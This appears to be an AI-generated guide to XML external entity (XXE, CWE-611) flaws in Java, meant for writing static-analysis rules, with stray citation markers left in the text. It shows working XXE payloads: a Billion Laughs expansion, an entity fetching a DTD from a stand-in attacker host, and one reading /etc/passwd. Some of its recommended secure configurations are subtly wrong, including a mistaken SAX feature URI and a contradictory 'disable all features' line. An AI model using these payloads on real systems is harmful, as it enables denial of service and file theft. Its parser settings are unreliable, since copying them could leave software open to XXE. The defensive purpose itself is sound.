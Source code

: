 # Improper Restriction of XML External Entity Reference (CWE-611) in Java

###### Introduction to Improper Restriction of XML External Entity (XXE) Reference

**Improper Restriction of XML External Entity (XXE) Reference**, identified as [CWE-611](https://cwe.mitre.org/data/definitions/611.html), occurs when a program processes XML input containing references to external entities without properly restricting access to those entities. This can lead to several types of exploits, such as:

- **Denial of Service (DoS):** Overwhelming the system's resources, for example through the "Billion Laughs" attack, where recursive entity expansion can consume excessive memory or CPU.
- **Server-Side Request Forgery (SSRF):** Enabling an attacker to send unauthorized requests from the server.
- **Data Exposure:** Exposing internal files, configurations, or other sensitive data through the parser.

This vulnerability is particularly prominent in applications that utilize weakly configured XML parsers.

### Example Attacks and Their Impact

1. **Denial of Service (DoS):** The "Billion Laughs" attack:
    ```xml
    <!DOCTYPE root [
      <!ENTITY lol "lol">
      <!ENTITY lol2 "&lol;&lol;">
      <!ENTITY lol3 "&lol2;&lol2;">
      <!ENTITY lol4 "&lol3;&lol3;">
      <!ENTITY lol5 "&lol4;&lol4;">
      <!ENTITY lol6 "&lol5;&lol5;">
      <!ENTITY lol7 "&lol6;&lol6;">
      <!ENTITY lol8 "&lol7;&lol7;">
      <!ENTITY lol9 "&lol8;&lol8;">
    ]>
    <root>&lol9;</root>
    ```
   This attack causes exponential entity expansions, potentially crashing the system【4:19†source】.

2. **Server-Side Request Forgery (SSRF):** The parser follows a URL from an external entity:
    ```xml
    <!DOCTYPE foo [
      <!ENTITY xxe SYSTEM "http://malicious.example.com/evil.dtd">
    ]>
    <foo>&xxe;</foo>
    ```
   The attacker can make requests to different parts of the network, possibly accessing internal services【4:17†source】.

3. **Data Exposure:** Leaking sensitive information through file retrieval:
    ```xml
    <!DOCTYPE foo [
      <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <foo>&xxe;</foo>
    ```
    The system's passwords file will be included in the output, exposing user credentials【4:14†source】.

### Examples of XXE in Java using Various Frameworks

When developing a SAST tool rule for detecting XXE vulnerabilities in Java, it's important to look for XML parsers and configurations commonly used in Java frameworks such as Apache Xerces, SAX, and DOM parsers. Below are examples and how they should be configured securely:

#### 1. Using `DocumentBuilderFactory` (DOM Parser)
```java
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
try {
    factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);  // Disable DTDs
    factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);  // Disable external entities
    factory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);  // Prevent loading external DTDs
    factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);  // Enable secure processing
    DocumentBuilder builder = factory.newDocumentBuilder();
} catch (ParserConfigurationException e) {
    e.printStackTrace();
}
```
Ensure all discussed features are disabled to prevent XXE.

#### 2. Using `SAXParserFactory` (SAX Parser)
```java
SAXParserFactory factory = SAXParserFactory.newInstance();
try {
    factory.setFeature("http://xml.org/sax/features/disallow-doctype-decl", true);  // Disable DTDs
    factory.setFeature("http://xml.org/sax/features/external-general-entities", false);  // Disable general external entities
    factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);  // Disable parameter entities
    factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);  // Enable secure processing
    SAXParser parser = factory.newSAXParser();
} catch (ParserConfigurationException | SAXException e) {
    e.printStackTrace();
}
```
The configuration for SAXParserFactory is similar, with an emphasis on disabling DTDs and external entities.

#### 3. Using Apache Xerces
```java
XMLReader reader = XMLReaderFactory.createXMLReader();
try {
    reader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);  // Disable DTDs
    reader.setFeature("http://xml.org/sax/features/external-general-entities", false);  // Disable general external entities
    reader.setFeature("http://xml.org/sax/features/external-parameter-entities", false);  // Disable parameter entities
    reader.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);  // Enable secure processing
} catch (SAXNotRecognizedException | SAXNotSupportedException e) {
    e.printStackTrace();
}
```
In Apache Xerces, similar features should be managed to ensure no external entity expansion.

### Recommendations for Writing SAST Rules

To detect XXE vulnerabilities with a SAST tool in the context of Java:

1. **Pattern Matching:** Look for instances where XML parsers are created using `DocumentBuilderFactory`, `SAXParserFactory`, or similar classes.
2. **Configuration Checks:** Ensure the critical features such as `disallow-doctype-decl`, `external-general-entities`, `external-parameter-entities`, and `FEATURE_SECURE_PROCESSING` are set correctly.
3. **Context Identification:** Identify the context of XML parsing to filter out false positives, ensuring the focus remains on scenarios where external input is parsed.

An effective rule would check for the existence of insecure configurations and recommend the necessary secure configurations to avoid XXE vulnerabilities【4:0†source】【4:3†source】【4:13†source】. 

Providing these examples and their secure configurations helps make the detection rules robust and context-aware, ensuring accurate identification and remediation of potential XXE vulnerabilities in Java applications.
